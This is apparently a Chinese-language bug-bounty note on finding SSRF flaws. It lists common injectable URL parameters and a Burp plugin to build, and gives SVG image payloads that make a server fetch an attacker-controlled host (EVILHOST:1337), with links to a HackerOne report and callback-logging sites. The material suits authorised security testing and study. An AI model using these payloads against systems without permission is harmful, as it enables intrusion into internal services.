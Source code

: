 # SSRF 漏洞挖掘技巧

## 0x1 自动化挖掘SSRF

### 0x1.1 组合思路

![Et9d-mlXYAE7cg0](常用的SSRF参数.assets/Et9d-mlXYAE7cg0-3134197.jpeg)

### 1.2 burp插件SSRF-king

```
git clone https://github.com/ethicalhackingplayground/ssrf-king
gradle build
```

> 自动使用burpcollaborator来进行探测非常方便

介绍链接:https://www.kitploit.com/2021/01/ssrf-king-ssrf-plugin-for-burp.html?utm_source=dlvr.it&utm_medium=twitter





## 常用的SSRF参数

```
?url=[SSRF]
?q=[SSRF]
?u=[SSRF]
?link=[SSRF]
?host=[SSRF]
?file=[SSRF]
?path=[SSRF]
?imgurl=[SSRF]
?src=[SSRF]
?consumerUri=[SSRF]
```



##  挖掘SSRF一些技巧

### svg服务端图片处理导致的盲ssrf

Content-Type: image/svg+xml

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="200" width="200" xlink:href="http://<EXAMPLE_SERVER>/image.jpeg" /></svg>


<svg xmlns:svg=”http://w3.org/2000/svg" xmlns=”http://w3.org/2000/svg" xmlns:xlink=”http://w3.org/1999/xlink" width=”200" height=”200">
<image height=”30" width=”30" xlink:href=”http://EVILHOST:1337/SVG-SSRF-TEST" />
</svg>
```

利用参考:https://hackerone.com/reports/223203



## 相关的在线工具

记录触发点:

 https://ssrftest.com/

https://webhook.site/ (可以自定义文件内容)